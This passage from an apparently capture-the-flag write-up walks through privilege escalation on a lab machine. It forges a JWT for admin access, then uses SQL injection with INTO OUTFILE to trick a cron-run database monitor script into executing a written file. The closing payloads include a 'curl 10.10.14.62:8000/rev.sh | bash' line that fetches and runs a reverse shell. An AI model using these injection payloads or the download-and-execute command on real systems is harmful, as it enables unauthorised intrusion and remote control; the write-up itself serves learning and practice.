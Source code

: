 ```coffeescript
		
		#Enconde a new token with the same parameters except for the role
    new_token = jwt.encode(data, private_key, algorithm="RS256")
    print(f'Nuevo token: {new_token}')

```
<br/><br/>
Once inside as administrator, we have access to all the reservations made by users, and we are able to search them by email.
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_23.png' | relative_url }})
<br/><br/>
Remember that we have access to some files thanks to LFI and path traversal
<br/><br/>
In app.py we can realize there are no sanitization for the input in the sql query
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_24.png' | relative_url }})
<br/><br/>
and we know that in crontab there are some automation tasks which perform actions in the database, let’s dig into it
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_25.png' | relative_url }})
<br/><br/>
Begin inspecting `/data/scripts/dbmonitor.sh`
<br/><br/>
Making a general scanning we know that this is an automation to check database state, looking for the service ran by sql
<br/><br/>
First, it checks if the database is not active, but we are not going to focus on there because the normal state of the database is active 
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_26.png' | relative_url }})
<br/><br/>
That’s why we are focusing in the else statement, which represents when the database is active
<br/><br/>
There is logic of the code checks if the file `/data/scripts/dbstatus.json` exists, this file normally is created when the database has been down, but as we said the database normal state is up. So we are going to use the next injection to create that `file%3b++select+"anything"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b`
<br/><br/>
that’s how we are going to create  `/data/scripts/dbstatus.json` to get into the if statement
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_27.png' | relative_url }})
<br/><br/>
Here the script checks if the string `database is down` is present in `/data/scripts/dbstatus.json` but we have write anything in the file, that’s makes us go to the else, there the script interpret that something went wrong with the database and it will find the latest version of `/data/scripts/fixer_v`  once that file is saved in a variable it will be executed with `/bin/bash`
<br/><br/>
![image.png]({{ '/assets/images/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1/0c9bde50-f585-4956-80e3-103c8cf13c6d-export-d8a78406-48de-46e8-a428-8a0384bea1e1_image_28.png' | relative_url }})
<br/><br/>
Now we know how we can get RCE we just need to create another file named `/data/scripts/fixer-v___` writing a reverse shell, or a command calling a reverse shell, making this injection it will be taken as the latest version and it will be executed
<br/><br/>
```bash
%3b++select+"ping+10.10.14.62%3b"+INTO+OUTFILE++'/data/scripts/dbstatus.json'+%3b
%3b++select+"curl%2010.10.14.62:8000/rev.sh%20%7Cbash"+INTO+OUTFILE++'/data/scripts/fixer-v___'+%3b
```
<br/><br/>